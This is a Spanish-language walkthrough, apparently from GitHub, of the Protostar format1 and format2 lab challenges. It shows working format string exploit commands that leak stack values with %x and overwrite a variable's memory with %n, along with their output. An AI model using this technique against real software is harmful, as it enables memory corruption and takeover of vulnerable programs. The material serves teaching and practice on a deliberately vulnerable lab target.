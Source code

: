   Ahora sustituimos las "AAAA" por esa dirección (ambas cosas ocupan 4 bytes).
```console
[user@protostar]-[/opt/protostar/bin]:$ ./format1 $(python -c "print('\x38\x96\x04\x08'+'B'+'%8x.'*136 + '%x')") | tr "." "\n" ;echo
AAAABBBB 804960c
bffff488
...
317461
8049638
```
  Perfecto, la dirección de memoria se ha alineado perfectamente. Ahora hay que sobrrescribirla cambiando la "%x" por "%n"
  
```console
[user@protostar]-[/opt/protostar/bin]:$ ./format1 $(python -c "print('\x38\x96\x04\x08'+'B'+'%8x.'*136 + '%n')") | tr "." "\n" ;echo
AAAABBBB 804960c
bffff488
...
317461
you have modified the target :)
```
  Y ya está, primer format completado.
  
  **Entonces. ¿Que hemos hecho con todo esto?** Primero hemos observado el binario, la pila... Hemos visto que nos imprimía valores de esta al pasarle
  "%x" y que a cierto numero de estos, se muestra nuestro input. 
  Hemos sustituido un input random "AAAA" por la direccion de una varaible (target = \x38\x96\x04\x08)
  La hemos colocado al final y hemos escrito en ella con "%n". 
  Es decir gracias a "%n" podemos escribir dentro de una direccion de memoria que pongamos en la pila. (gracias a que esta actua como puntero).
  
  **¿Que hemos escrito en la varaible target?** La "B"
  
  **Y si en vez de una direccion de memoria válida hubieramos metido las "AAAA"?** Que %n diria de escribir en una memoria que no existe en (0x41414141)
  no hay nada. Entonces arrojaría un segmentation fault.
  
  **A nivel de código que hemos hecho?** Exactamente esto ->  ```printf("AAAA%n", &variable) -> varaible = "AAAA"```
  
---------------------------------------------------------------------------
# Escribir un numero de bytes en una variable 
> [format2](https://exploit.education/protostar/format-two/)

Format2 no nos pide un argumento sino un input una vez ejecutado, la manera de pasarle dichi input por tanto cambia
  
```console
[user@protostar]-[/opt/protostar/bin]:$ python -c 'print("AAAA" + "%8x."*5)' | ./format2
AAAA     200.b7fd8420.bffff524.41414141.2e783825.
target is 0 :(
```
A diferencia del caso anterior, el offset es mucho menor, es decir nos imprime nuestro input de AAAA mucho antes.
Si seguimos lo que hemos aprendido del primer format daremos con la conclusión de que la cuarta direccion que nos imprime (donde empiezan 
las AAAA) es donde poner nuestra direccion de memoria y con la que escribir las "B" gracias al paráemtro "%n".

